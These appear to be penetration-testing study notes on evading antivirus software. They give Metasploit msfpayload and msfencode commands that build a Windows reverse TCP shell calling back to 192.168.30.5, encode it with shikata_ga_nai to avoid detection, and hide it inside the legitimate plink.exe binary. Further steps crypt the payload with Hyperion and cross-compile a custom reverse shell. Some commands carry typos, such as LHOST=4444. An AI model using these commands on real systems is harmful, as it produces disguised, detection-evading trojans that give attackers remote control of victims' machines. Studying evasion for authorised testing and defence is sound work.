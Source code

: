 **Anti-Virus Avoidance:**

Employe black list technology:  know signatures of malware are searched in the files, system and get quarantined if found

* Create standard payload using MSFconsole : 

```
msfpayload windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=444 X > ~/Desktop/shell_reverse.exe
```

* Encode the payload  \(Detection of payload is less as it is encoded\):

```
msfpayload windows/shell_reverse_tcp LHOST=4444 R | msfencode -e x86/shikata_ga_nai -t exe -c 9 -o ~/Deskstop/shell_reverse_msf_encoded.exe
```

* Embedding payload into non malicious PE executable

```
msfpayload windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=44 R | msfencode -e x86/shikata_ga_nai -t exe -c 9 -x /usr/share/windows-binaries/plink.exe -o ~/Desktop/shell_reverse_msf_encoded_embedded.exe
```

**Packers and Crypters:**

Software protection tools and crypters are often used to obfuscate to prevent reverse engineering of software.

```
cross compile :
>> i586-mingw32msvc-g++ Src/Crypter/*.cpp -o hyperion.exe

Use hyperion to protect the meterpeter reverse shell
>> wine hyperion.exe ~/Desktop/crypted.exe
```

**Custom Tools:**

use tools and binaries not know to antivirus

```
i586-mingw32msvc-gcc reverse.c -o ~/Desktop/custom-reverse.exe -lws2_32
```

**Python Bind shell trojan**

Run on the port 4444 and run any command sent to this port .

cross compile using the PyInstaller

